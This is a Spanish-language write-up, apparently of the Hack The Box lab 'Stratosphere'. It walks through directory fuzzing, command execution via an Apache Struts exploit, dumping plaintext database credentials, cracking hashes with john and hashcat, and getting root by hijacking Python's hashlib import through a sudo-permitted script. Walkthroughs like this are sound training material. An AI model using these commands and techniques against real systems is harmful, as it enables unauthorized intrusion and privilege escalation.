# Stratosphere





- 80
Visitamos el sitio web y parece que la web está en desarrollo



- 8080
En principio nos muestra la misma página

- Vamos a fuzzear directorios
```bash
gobuster dir -u http://10.129.52.14 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```



- Al entrar en */manager* se nos abre un popup de notificación en el navegadorç
Buscamos default credentials pero no conseguimos acceder
Si cancelamos el login nos aparece un error con credenciales de ejemplo tomcat:s3cret pero que no sirven para logearnos

- En */Monitoring* vemos una especiece de página de monitoreo



Vemos que el recurso es **Welcome.action**

- Buscaremos exploits acerca de recursos .action ya que no me suenan de nada
Buscamos *.action file exploit ->*
Vemos que el propio buscador nos menciona exploits de *Apache Struts*



- Buscamos exploits en google de apache struts en .action
[https://www.exploit-db.com/exploits/45260](https://github.com/mazen160/struts-pwn)
```bash
python3 struts-pwn.py -u 'http://10.129.52.14/Monitoring/example/Welcome.action' -c id
```



- No existe curl en la máquina para lanzarnos shell, vamos a intentar buscar otra forma
```bash
ls -la
```



Vemos un **db_connect** -> vemos su contenido



Vemos credenciales
admin:admin
ssn_admin:AWs64@on*&

- Intentamos conectarnos por ssh pero las credenciales no son correctas -> Vamos a intentar usar **sqlshow** para conectarnos a la base de datos y enumerar informacion ya que no estamos en una tty interactiva como para usar mysql normal
Vemos que *mysqlshow* existe con
```bash
which mysqlshow
```

```bash
mysqlshow -uadmin -padmin
```



Vemos las bases de datos con las credenciales **admin:admin**
```bash
mysqlshow -uadmin -padmin users
```



```bash
mysqlshow -uadmin -padmin users accounts
```



- Una vez que tenemos los datos de la estructura de la base de datos ya podemos lanzar una query con *mysql* y el parámetro -e
```bash
mysql -uadmin -padmin -e "select * from accounts " users
```

Es importante usar comas simples ' para el -c y comas dobles " para la query del parámetro -e



Vemos que hay credenciales en texto claro en la tabla
richard:9tc*rhKuG5TyXvUJOrE^5CK7k

- Intentamos ahora conectarnos por ssh ya que richard parece un usuario válido
richard

## Escalada

```bash
id
```



Hay muchos grupos pero no vemos ninguno interesante para escalar

```bash
sudo -l
```



El script */home/richard/test.py* podemos ejecutarlo con permisos de sudo

- No podemos editar el script *test.py*
Vemos que es una especie de script que nos va pidiendo resolver ciertos hashes y si acertamos pasamos de nivel, hasta resolver el último que nos ejecutará un script en */root/success.py* que en principio no sabemos lo que hace



- Vemos que el último hash parece bastante dificil de crackear, buscaremos alguna vulnerabilidad por ejemplo para la libreria **hashlib**
No veo nada en principio

- Intento crackear primer hash en md5
5af003e100c80923ec04d65933d382cb



kaybboo!

- Siguiente en Sha1
d24f6fb449855ff42344feff18ee2819033529ff
```bash
john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



ninjaabisshinobi

- Siguiente en MD4
91ae5fc9ecbca9d346225063f23d2bd9
```bash
john --format=raw-md4 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



legend72

- El último en MD4 con salt
9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943
Para intentar crackear este último salta un error -> probamos con hashcat y tambien nos da error de length en el hash



```bash
hashcat -m 600 hash.txt /usr/share/wordlists/rockyou.txt
```



Fhero6610

- Ejecutamos ahora el script en python como sudo
```bash
sudo /usr/bin/python3 /home/richard/test.py
```



Nos dice que no encuentra el script /root/success.py -> probablemente no exista

- Como no hemos encontrado vulnerabilidades en la librería *hashlib.py* vamos a intentar que se acontezca un **library hijacking**
En primer lugar, en el sudo -l nos reportan que podemos usar cualquier versión del sistema de python ya que aparece como **python**** y no solo python3 o python2


- Vamos a inspeccionar los el orden de prioridad de las rutas de búsqueda al importar una librería en python
```bash
python3 -c "import sys; print (sys.path)"
```

Vemos un montón de librerías



Pero si nos fijamos bien, la primera en la que mira es **''** lo que significa el directorio actual de trabajo en el que se ejecute el script en cuestión
- Vamos a buscar la librería *hashlib.py* que seguramente estará en */usr/lib/python2.7*
```bash
find /usr/lib/python2.7 \-name hashlib.py 2>/dev/null
```



Efectivamente la encontramos

- Podremos crearnos una script que se llame como la librería hashlib.py en el directorio actual de trabajo para acontecer el *library hijacking*. El path buscará primero en '' y encontrará nuestro script malicioso que ejecutará el código que nosotros queramos



Ahora cuando ejecutemos el script con permisos de sudo, la librería maliciosa se ejecutará en el momento en el que se IMPORTE
```bash
sudo -u root /usr/bin/python3 /home/richard/test.py
```



```bash
sudo -p
```

root
